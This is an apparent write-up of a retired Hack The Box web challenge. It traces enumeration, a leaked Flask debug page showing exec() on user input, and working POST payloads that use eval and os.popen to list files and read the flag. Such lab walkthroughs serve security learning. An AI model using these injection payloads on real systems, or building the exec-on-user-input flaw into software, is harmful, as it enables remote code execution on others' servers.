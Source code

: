 ```yaml
---
title: HTB - Baby Interdimensional Internet
tags: [Hacking, HTB, Security, Web, Python, Medium-ish, Retired]
style:
color:
description: Here is my write up for the challenge Baby Interdimensional Internet via HTB.
---
```


Geez Rick, this challenge kinda pissed me off.

Yea Morty, I feel you. It was like right there, right there in front our faces Morty. In front of our damn faces!!

## 1. Enumeration

Alright, first things first, lets kick off some scans while we browse the web page.

`nikto -h http://142.93.45.112:32113`

`dirb http://142.93.45.112:32113 -r`

While those were running, I went ahead and started browsing the page.

![landing page](../images/bii_main.png "landing page")

At first it appeared as though there was nothing too special about the site. After refreshing it, I noticed the number changed under the picture of the two interdimensional travelers.

![landing page new](../images/bii_main2.png "landing page new")

So this lets me know the page is not necessarily static, but is being dynamically generated somehow. Also, my scans were taking forever and nothing was really returning, so I stopped those.

Lets turn to our trusty developer tools via Firefox and see if we can get anything new from there.

Well why dont ya look at that, looks like we might have something at `/debug`

![possible lead](../images/bii_debug.png "possible lead")

Also noticed the response from the server...

![maybe flask](../images/bii_flask.png "maybe flask")

So it looks like we have some Flask involved, and after navigating to `http://142.93.45.112:32113/debug/`, Flask is confirmed. With the confirmation of Flask runnin, it  just lets us know its a Python based web server.

![debug](../images/bii_debug2.png "debug")

## 2. Exploiting Python Exec

First thing that stands out after reviewing the debug page is in the function `calc`. But we cant get ahead of ourselves so we keep looking at the code.

```
def calc(recipe):
  global garage
  garage = {}
  try: exec(recipe, garage)
  except: pass
```

Further investigation of the code reveals that the number seen on the landing page is randomly generated on the first two lines within the `federation` function. A line down, we see a condition involving a `POST` request.

```
if request.method == 'POST':
            ingredient = request.form.get('ingredient', '')
            recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

It appears if we submit a `POST` request and supply values to both the `ingredient` and `measurements` parameters, we can control the number that appears on the main page. After intercepting and modifying the request via Burp, we have successfully taken control of the number.

```
POST / HTTP/1.1
Host: 142.93.45.112:32113
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://142.93.45.112:32113/
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: close
Upgrade-Insecure-Requests: 1

ingredient=plumbus&measurements=137
```

![im the captain now](../images/bii_igotit.png "im the captain now")

Now its time to see if we can get some code execution on the box. Lets change the `measurements` variable since, it appears to be the varible thats getting supplied to the webpage.

```
ingredient=plumbus&measurements=eval('__import__(\'os\').popen(\'ls\').read()')
```

Before we go forward, lets talk about why I supplied the value I did. So first, I tried supplying commands straight into the `measurements` parameter but I kept getting a blank page back. Sooooo, after some digging, I found that while the `exec()` might be able to execute code, it doesnt return the result , unless specified, like `eval()` does. Heres some links talkin about it:

-[Kinda Explanin](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

-[Kinda Deep Explanation](https://www.code-learner.com/what-is-the-differences-between-python-eval-and-exec-function/)

Back to this walkthrough, we have remote code execution Morty.

![rce](../images/bii_rce.png "rce baby")

Now lets switch up the command. Gonna just read the flag since it returned in the last POST request.
```
ingredient=whoami&measurements=eval('__import__(\'os\').popen(\'cat+flag\').read()')
```
![the flag](../images/bii_flag.png "flag")

## 5. Conclusion

This box reminds me just how more dope Python is. It was definetly a headace dealing with escaping characters and passing them into the function, but it was good reinforcement on how certain functions can be exploited. Long sentence, sorry.

Dont be afraid to research that thang you arent familiar with. 
